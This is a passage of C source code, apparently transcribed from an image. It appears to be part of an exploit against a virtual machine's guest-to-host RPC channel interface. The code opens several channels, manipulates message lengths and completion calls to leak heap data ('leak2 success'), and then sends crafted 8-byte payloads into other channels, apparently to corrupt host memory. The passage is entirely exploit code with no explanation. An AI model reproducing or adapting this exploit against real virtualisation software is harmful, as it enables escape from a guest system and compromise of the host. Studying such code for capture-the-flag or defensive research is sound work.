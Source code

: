 ```c
    }
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[2].cookie1,&chan[2].cookie2,&chan[2].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[3].cookie1,&chan[3].cookie2,&chan[3].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    printf("leak2 success\n");
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,8,&pay1,&res);
    channel_set_len(chan[2].cookie1,chan[2].cookie2,chan[2].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_set_len(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(s3),&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay2,&res);
```